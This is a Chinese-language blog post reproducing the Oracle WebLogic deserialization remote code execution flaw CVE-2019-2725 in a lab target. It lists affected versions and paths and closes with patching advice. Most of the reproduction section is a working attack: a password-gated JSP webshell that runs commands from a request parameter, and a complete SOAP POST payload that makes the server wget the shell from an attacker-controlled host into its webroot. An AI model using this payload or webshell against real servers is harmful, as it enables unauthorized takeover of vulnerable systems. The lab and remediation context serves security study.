


# Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725） - 学安全的小白 - 博客园

> 原文：[`www.cnblogs.com/pursue-security/p/17029495.html`](https://www.cnblogs.com/pursue-security/p/17029495.html)

漏洞编号 CVE-2019-2725 影响版本

```
Oracle WebLogic 
Server 10.* Oracle WebLogic Server 12.1.3 影响组件：
bea_wls9_async_response.war
wsat.war
```

漏洞原理由于在[反序列化](https://so.csdn.net/so/search?q=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96&spm=1001.2101.3001.7020)处理输入信息的过程中存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，利用该漏洞获取服务器权限，实现远程代码执行。这个漏洞依旧是根据 weblogic 的 xmldecoder 反序列化漏洞，通过针对 Oracle 官网历年来的补丁构造 payload 来绕过。1.访问 /_async/AsyncResponseService 返回如下页面，即可能存在该漏洞2、访问/_async/如果返回 403，也可能存在漏洞漏洞不仅存在于 /_async/AsyncResponseService 只要是在 bea_wls9_async_response 包中的 Uri 皆受到影响，可以查看 web.xml 得知所有受到影响的 Uri 

```
默认受影响的 uri /_async/AsyncResponseService /_async/AsyncResponseServiceJms /_async/AsyncResponseServiceHttps
```

漏洞复现使用 vulfocus 在线靶场将后门文件放到 vps 上，等下用来让目标下载该后门文件

```
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        inta=-1; byte[]b =new byte[2048]; out.print("<pre>") while((a=in.read(b))!=-1) { out.println(new String(b));
        } out.print("</pre>");
    } %>
```

构造 post 请求包注意：有两种写入 shell 方法第一种是放置在 bea_wls9_async_response/8tpkys/war 路径下，若在此路径放置，则使用链接[`172.17.16.77:7001/_async/shell.jsp`](http://172.17.16.77:7001/_async/shell.jsp)访问 webshell 第二种是放置在 bea_wls_internal/9j4dqk/war 路径下，若在此路径放置，则使用链接[`172.17.16.77:7001/bea_wls_internal/shell.jsp`](http://172.17.16.77:7001/bea_wls_internal/shell.jsp)访问 webshell

```
POST /_async/AsyncResponseService HTTP/1.1 Host: 172.16.20.157:7001 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8 Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8 Connection: close
Content-Length: 841 Accept-Encoding: gzip, deflate
SOAPAction:
Accept: / User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"> soapenv:Header
wsa:Actionxx</wsa:Action> wsa:RelatesToxx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>wget http://172.16.20.1/jsp.txt -O servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war/1.jsp</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header> soapenv:Body
asy:onAsyncDelivery/
</soapenv:Body></soapenv:Envelope>
```

将 GET 改为 POST，随后请求包部分除了第一行第二行保留，其他部分全部替换如下 payload。注意：如果你不知道上传到目标哪个目录中，可以使用如下 payload，进行查看

```
/_async/AsyncResponseService?info
```

使用冰蝎进行连接



使用冰蝎进行连接


修复建议 1、及时打上官方 CVE-2019-2725 补丁包。官方已于 4 月 26 日公布紧急补丁包 2、升级本地 JDK 版本因为 Weblogic 所采用的是其安装文件中默认 1.6 版本的 JDK 文件，属于存在反序列化漏洞的 JDK 版本，因此升级到 JDK7u21 以上版本可以避免由于 Java 原生类反序列化漏洞造成的远程代码执行。3、配置 URL 访问控制策略部署于公网的 WebLogic 服务器，可通过 ACL 禁止对/_async/及/wls-wsat/路径的访问。4、删除不安全文件删除 wls9_async_response.war 与 wls-wsat.war 文件及相关文件夹，并重启 Weblogic 服务。具体文件路径如下